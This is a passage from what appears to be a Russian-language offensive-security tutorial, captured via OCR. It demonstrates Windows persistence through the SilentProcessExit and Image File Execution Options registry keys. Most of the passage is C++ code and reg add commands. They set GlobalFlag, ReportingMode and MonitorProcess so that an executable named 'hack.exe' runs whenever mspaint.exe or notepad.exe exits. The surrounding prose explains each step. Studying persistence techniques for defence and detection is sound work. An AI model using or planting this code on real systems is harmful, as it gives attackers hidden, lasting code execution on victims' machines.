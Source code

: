```cpp
    RegCloseKey(hkey);
  }

  // res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)
  //"SOFTWARE\\Microsoft\\Windows 
  //NT\\CurrentVersion\\SilentProcessExit\\mspaint.exe", 0 , KEY_WRITE, &hkey);
  res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)silent, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    // reg add "HKLM\SOFTWARE\Microsoft\Windows 
    // NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t 
    // REG_DWORD /d 1
    // reg add "HKLM\SOFTWARE\Microsoft\Windows 
    // NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d 
    // "Z:\..\hack.exe"
    RegSetValueEx(hkey, (LPCSTR)"ReportingMode", 0, REG_DWORD, 
    (const BYTE*)&rM, sizeof(rM));
    RegSetValueEx(hkey, (LPCSTR)"MonitorProcess", 0, REG_SZ, 
    (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Итак, что мы здесь сделали? Во-первых, мы создали ключ `SilentProcessExit` в `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion`, затем включили функцию мониторинга завершения тихого процесса, добавив `GlobalFlag`:

```cpp
//...

LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, 
REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);

//...
//...

// reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File 
// Execution Options\mspaint.exe" /v GlobalFlag /t REG_DWORD /d 512
RegSetValueEx(hkey, (LPCSTR)"GlobalFlag", 0, REG_DWORD, 
(const BYTE*)&gF, sizeof(gF));
//...
```

Если установить `MonitorProcess` на `...\hack.exe` и `ReportingMode` на `1`, то каждый тихий выход из `mspaint.exe` теперь будет вызывать выполнение нашей "вредоносной программы" `hack.exe`:

```cpp
//...

RegSetValueEx(hkey, (LPCSTR)"ReportingMode", 0, REG_DWORD, 
(const BYTE*)&rM, sizeof(rM));
RegSetValueEx(hkey, (LPCSTR)"MonitorProcess", 0, REG_SZ, (unsigned char*)exe, 
strlen(exe));
```
